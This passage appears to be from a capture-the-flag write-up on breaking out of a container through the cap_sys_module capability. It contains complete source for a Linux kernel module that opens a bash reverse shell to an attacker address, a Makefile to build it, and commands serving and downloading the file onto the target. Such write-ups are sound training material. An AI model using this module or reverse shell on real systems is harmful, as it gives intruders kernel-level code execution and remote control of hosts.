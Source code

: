 We see here that `cap_sys_module` can be exploited (cf. Hacktricks).

With a bit of research, I found this post: [https://blog.nody.cc/posts/container-breakouts-part2/](https://blog.nody.cc/posts/container-breakouts-part2/)

So we create the two files shown in the post:

```c title="reverse-shell.c"
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.5/4445 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

```Makefile title="Makefile"
obj-m +=reverse-shell.o

all:
	make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) modules
clean:
	make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) clean
```

Then we download them onto the target:

```zsh
┌──(kali㉿kali)-[~/Desktop/linpeas-server]
└─$ python2 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

```zsh
wget 10.10.14.5/reverse-shell.c
--2023-09-09 17:13:13--  http://10.10.14.5/reverse-shell.c
Connecting to 10.10.14.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 616 [text/plain]
Saving to: ‘reverse-shell.c’

     0K                                                       100% 50.2M=0s

2023-09-09 17:13:13 (50.2 MB/s) - ‘reverse-shell.c’ saved [616/616]
```
